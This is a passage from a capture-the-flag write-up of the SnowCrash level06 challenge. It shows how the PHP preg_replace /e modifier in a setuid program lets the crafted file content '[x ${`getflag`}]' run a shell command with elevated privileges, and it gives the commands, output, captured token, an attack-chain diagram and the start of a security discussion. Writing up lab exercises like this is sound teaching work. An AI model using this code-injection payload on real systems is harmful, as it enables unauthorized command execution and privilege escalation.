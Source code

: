The error message shows that `ls` was executed (we see the file listing), but PHP treats it as an undefined variable name.

### Step 4: Execute getflag

Now let's execute `getflag` to retrieve the flag:

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/flag06
level06@SnowCrash:~$ ./level06 /tmp/flag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

**Success!** The flag is embedded in the error message: `wiok45aaoguiboiki2tuin6ub`

## Technical Deep Dive

### Why the Injection Works

1. **Regex Pattern**: `/(\[x (.*)\])/e` captures everything between `[x` and `]`
2. **Code Evaluation**: The `/e` modifier treats the replacement as executable PHP code
3. **Variable Interpolation**: `${...}` in PHP attempts to use the content as a variable name
4. **Command Substitution**: Backticks execute shell commands and return output
5. **Privilege Escalation**: The setuid bit ensures commands run with flag06 privileges

### The Attack Chain

```
File Content: [x ${`getflag`}]
       ↓
Regex Match: captures ${`getflag`}
       ↓
PHP Evaluation: Executes ${`getflag`}
       ↓
Command Execution: `getflag` runs as flag06
       ↓
Variable Lookup: PHP tries to find variable named after command output
       ↓
Error with Flag: "Undefined variable: Check flag.Here is your token : ..."
```

## Security Implications

This level demonstrates several critical vulnerabilities:

### 1. **Code Injection via preg_replace /e**

- Direct execution of user-controlled input as PHP code
- Deprecated feature with known security risks
- Insufficient input validation

### 2. **File Processing Vulnerabilities**
